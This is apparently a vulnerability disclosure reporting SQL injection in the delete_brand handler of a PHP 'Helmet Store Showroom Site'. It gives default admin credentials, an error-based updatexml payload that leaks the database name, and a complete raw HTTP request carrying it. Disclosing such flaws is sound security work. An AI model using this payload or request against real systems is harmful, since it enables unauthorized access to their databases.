 # Helmet Store Showroom Site v1.0 by oretnom23 has SQL injection

Vulnerability Discoverer: Venus-TBLab-YangTao

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /hss/classes/Master.php?f=delete_brand

Vulnerability location: /hss/classes/Master.php?f=delete_brand,id

dbname =hss_db,length=6

[+] Payload:  id=6' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /hss/classes/Master.php?f=delete_brand HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/hss/admin/?page=brands
Content-Length: 65
Cookie: PHPSESSID=29mcgvmjo6mqsepd64ra2rlt4v
Connection: close

id=6' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/204070093-b2018ee0-3350-444c-b691-8f329686d9d0.png)
